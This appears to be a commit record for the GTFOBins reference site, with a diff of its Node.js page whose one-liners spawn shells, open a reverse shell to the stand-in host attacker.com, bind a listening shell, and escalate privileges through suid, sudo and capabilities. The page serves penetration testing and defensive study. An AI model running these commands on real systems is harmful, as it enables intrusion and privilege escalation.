

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Remove useless require in Node.js

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -2,35 +2,35 @@
 functions:
   shell:
     - code: |
-        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
+        node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
         export RHOST=attacker.com
         export RPORT=12345
-        node -e 'sh = require("child_process").spawn("/bin/sh");
+        node -e 'sh = child_process.spawn("/bin/sh");
         net.connect(process.env.RPORT, process.env.RHOST, function () {
           this.pipe(sh.stdin);
           sh.stdout.pipe(this);
           sh.stderr.pipe(this);
-        });'
+        })'
   bind-shell:
     - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
       code: |
         export LPORT=12345
-        node -e 'sh = require("child_process").spawn("/bin/sh");
-        require("net").createServer(function (client) {
+        node -e 'sh = child_process.spawn("/bin/sh");
+        net.createServer(function (client) {
           client.pipe(sh.stdin);
           sh.stdout.pipe(client);
           sh.stderr.pipe(client);
-        }).listen(process.env.LPORT);'
+        }).listen(process.env.LPORT)'
   suid:
     - code: |
-        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
+        ./node -e 'child_process.spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
   sudo:
     - code: |
-        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
+        sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
   capabilities:
     - code: |
-        ./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
+        ./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
 ---
```
